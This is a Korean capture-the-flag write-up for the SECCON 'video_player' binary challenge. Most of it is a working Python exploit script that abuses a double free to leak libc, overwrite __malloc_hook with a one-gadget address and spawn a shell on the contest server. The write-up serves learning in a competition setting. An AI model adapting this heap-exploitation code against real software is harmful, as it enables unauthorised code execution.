

video_player 500 (Solver : 30)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE         |
|---------------|--------------|------------|--------|----------|------------|--------------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | video_player | 

x64 바이너리이며 이게 ida 한번도안쓰고 동적분석으로 진행하다가 더블프리터지는거보고 릭이랑 익스 싹다짰습니다. 원리는 다른 라업을 참고하시는걸로..
(대회중에 푼거라서 코드가 좀 더럽고 정리를 안했습니다.)

### 2. Exploit

videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa) -> 이런식으로 할당하면 0xa가 할당되고 똑같이 edit하면 할당하고 해제해서 더블프리가능.

```python
from ntpwn import *

#s = process('./video')
s = remote('video_player.pwn.seccon.jp',7777)
#l = ELF('/lib/x86_64-linux-gnu/libc.so.6')
l = ELF('libc.so.6')
'''
b = BP(s)
b.bp('tracemalloc on')
b.bp('c')
b.done()
'''

pause()
s.sendafter('e name?','A' * 0xff)

def videoadd(a,b,c,d,e):
	s.sendlineafter('>>> ','1')
	s.sendlineafter('>>> ','1')
	s.sendafter(': ',a)
	s.sendafter(': ',b)
	s.sendafter(': ',c)
	s.sendafter(': ',d)
	s.sendafter(': ',e)

def videoedit(index,a,b,c,d,e):
	s.sendlineafter('>>> ','2')
	s.sendlineafter(': ',index)
	s.sendafter(': ',a)
	s.sendafter(': ',b)
	s.sendafter(': ',c)
	s.sendafter(': ',d)
	s.sendafter(': ',e)

def remove(index):
	s.sendlineafter('>>> ','4')
	s.sendlineafter(': ',index)

videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)
videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)
videoadd('\x0a','\x0a','\x0a','\x0a','\x0a') // malloc(0xa)

#debug()

remove('2')
remove('1')
videoedit('0','A','A','\xff','A' * 0x8,'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
print hex(u32(s.recv(4)) ^ 0xcccccccc)
print hex(u32(s.recv(4)) ^ 0xcccccccc)
l_1 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100

log.info(hex(l_1))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 5)
l_2 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100

log.info(hex(l_2))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 6)
l_3 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_3))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 7)
l_4 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_4))

videoedit('0','A','A','\xff','A' * 0x8 + str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex') + str(hex(l_4)[2:]).decode('hex'),'\x0a')

s.sendlineafter('>>> ','3')
s.sendlineafter(': ','0')
s.recvuntil('Playing video...\n')
s.recv(4 + 8)
l_5 = (u32(s.recv(4)) ^ 0xcccccccc) % 0x100
log.info(hex(l_5))

libc_leak =  str(hex(l_1)[2:]).decode('hex') +str(hex(l_2)[2:]).decode('hex') + str(hex(l_3)[2:]).decode('hex') + str(hex(l_4)[2:]).decode('hex') + str(hex(l_5)[2:]).decode('hex') + '\x7f' + "\x00" * 2

libc_leak = u64(libc_leak) - 0x90 + (0x6 * 8) - 0x8 - l.symbols['__malloc_hook']
print hex(libc_leak)

pause()
videoedit('0','A','A','\x68',p64(libc_leak + l.symbols['__malloc_hook'] - 0x23),'\x0a')
videoadd('\x0a','\x0a','\x68','\x0a','\x0a')
videoadd('\x0a','\x0a','\x68','C' * 0x13 + p64(libc_leak+ 0x4526a),'\x0a')

s.sendlineafter('>>> ','3')


s.interactive()
```

### 3. Flag

